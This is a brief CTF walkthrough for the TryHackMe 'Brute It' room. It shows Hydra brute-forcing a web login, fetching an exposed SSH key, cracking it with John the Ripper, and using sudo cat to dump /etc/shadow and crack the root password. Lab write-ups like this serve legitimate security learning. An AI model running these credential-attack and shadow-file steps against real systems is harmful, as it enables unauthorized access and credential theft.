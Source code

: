 ```yaml
---
title: Brute It
description: 'HTTP post form attack with Hydra and cat-ing passwd and the shadow file'
pubDate: 2024-01-04
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/e343e8b253b4efc14bf61236d457c923.jpg'
---
```


With Feroxbuster we find http://10.10.69.143/admin/ and in the comments we see a username:
```html
<!-- Hey john, if you do not remember, the username is admin -->
```

Using Hydra:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.69.143 http-post-form '/admin/:user=admin&pass=^PASS^:invalid'
...snip...
[80][http-post-form] host: 10.10.69.143   login: admin   password: xavier
```

Grab the SSH key:
```bash
wget http://10.10.69.143/admin/panel/id_rsa
```

And crack it:

```bash
ssh2john id_rsa > ssh_hash
john ssh_hash --wordlist=/usr/share/wordlists/rockyou.txt
...snip...
rockinroll       (id_rsa)
```

Getting the root password (since we can sudo /bin/cat (`sudo -l`)):

```bash
sudo /bin/cat /etc/shadow > shadow
cat /etc/passwd > passwd
unshadow passwd shadow > hashes
john hashes --wordlist=/usr/share/wordlists/rockyou.txt
...snip...
football         (root)
```
